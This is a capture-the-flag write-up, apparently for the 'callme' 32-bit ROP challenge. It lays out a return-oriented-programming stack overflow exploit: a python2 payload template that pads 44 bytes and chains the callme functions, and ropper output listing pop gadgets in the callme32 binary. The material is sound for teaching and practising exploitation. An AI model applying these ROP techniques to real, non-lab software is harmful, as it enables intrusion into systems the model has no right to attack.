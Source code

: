 We have all we need now.

## Attack plan

1. Find offset to return address.
2. Find addresses of callme\_\*.
3. Write them into the stack in correct order.

## Exploit

### Manual

We're gonna need a gadget that can pop off three values from the stack so we can clean up the stack for each subsequent function call.

This is gonna look like this:

```bash
python2 -c '
print "a"*44 + \
      "callme_one_addr" + \
      "gadget_pop_3" + \
      "arg1" + \
      "arg2" + \
      "arg3" + \
      "callme_two_addr" + \
      "gadget_pop_3" + \
      "arg1" + \
      "arg2" + \
      "arg3" + \
      "callme_three_addr" + \
      "gadget_pop_3" + \
      "arg1" + \
      "arg2" + \
      "arg3" + \
      "optional: exit_addr" \
' > payload
```

`gadget_pop_3` This is at the place where the EBP will normally be. It will execute next after the function finishes and it will pop the args and then return to the next func address since gadgets almost always finish with a `ret`.

Looking for a suitable gadget...

```bash
└─$ ropper --file callme32 --search "pop"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme32
0x080487fb: pop ebp; ret;
0x080487f8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x080484ad: pop ebx; ret;
0x080487fa: pop edi; pop ebp; ret;
0x080487f9: pop esi; pop edi; pop ebp; ret;
0x08048810: pop ss; add byte ptr [eax], al; add esp, 8; pop ebx; ret;
0x080486ea: popal; cld; ret;
```
